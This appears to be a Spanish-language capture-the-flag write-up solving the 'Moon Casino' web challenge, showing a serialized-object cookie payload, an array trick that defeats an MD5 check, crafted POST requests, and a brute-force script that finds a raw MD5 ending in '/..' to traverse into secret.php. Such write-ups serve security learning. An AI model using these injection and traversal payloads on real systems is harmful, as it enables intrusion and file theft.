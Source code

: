 ## Moon Casino - Web - 53 Points

```
Our casino is under construction. Warm up yourself with this easy challenge!

http://casino.nn9ed.ka0labs.org/
```

![](img/mooncasino-01.png)


```
<html>
<head>
<title>Moon Casino (under construction)</title>
<style>
    body{
        background: url(moon.jpg) no-repeat center center fixed;
    }
</style>
</head>
<body>
<!-- index.php?source=go --!>
</body>
</html>
```

![](img/mooncasino-02-source.png)

[código fuente](mooncasino-source.php)



### Acertar con rand()

```
rand() === $_POST['guess']
```
Al utilizar una comparación estricta con `===` es imposible cumplir esta igualdad, al ser `rand()` un entero y `$_POST['guess']` un string (o un array).


### Serializando

Podemos crear un objeto en el serializado para invocar a la clase `casino_debug`, además aprovechamos para modificar la variable `$var` por una variable de sesión que podemos llegar a controlar.

`O:12:"casino_debug":1:{s:3:"var";s:3:"bet";}`

Lo debemos enviar en base64 en la cookie `debug=TzoxMjoiY2FzaW5vX2RlYnVnIjoxOntzOjM6InZhciI7czozOiJiZXQiO30=`


### Lectura en '/'
El siguiente paso es conseguir escribir la ruta del fichero con la flag en la variable de sesión `bet` 

```
POST /index.php?action=bet
bet=initrd.img&guess[]=patatas
```

Anulando el MD5 con un *Array*, conseguimos leer directamente ficheros en el directorio raiz. Sin embargo no hay ficheros de utilidad para conseguir la flag.


### Lectura del archivo secret.php

La función `md5($_POST['guess'], TRUE)` devuelve 16 caracteres en formato binario, para conseguir leer en el directorio de la aplicación podemos buscar un valor que termine en `/..`,
esto haría que la ruta tuviera esta forma `/var/www/html/XXXXXXXXXXXXX/../secret.php`

Con el siguiente script hacemos fuerza bruta en local
```php
<?php
for($i = 0 ; TRUE ; $i++) {
  $str = md5($i, TRUE);
  if(strpos($str, '/..')==13) {
    echo "$i - $str\n";
  }
}
```
Encontramos un string que genera el resultado buscado
```
32138105 - � ��"�{���/..
```

Primero guardamos los valores en la sesión.
```bet=secret.php&guess=32138105```

Finalmente enviamos la petición con la cookie serializada y somos capaces de leer `secret.php` con la flag oculta.

![](img/mooncasino-03-flag.png)
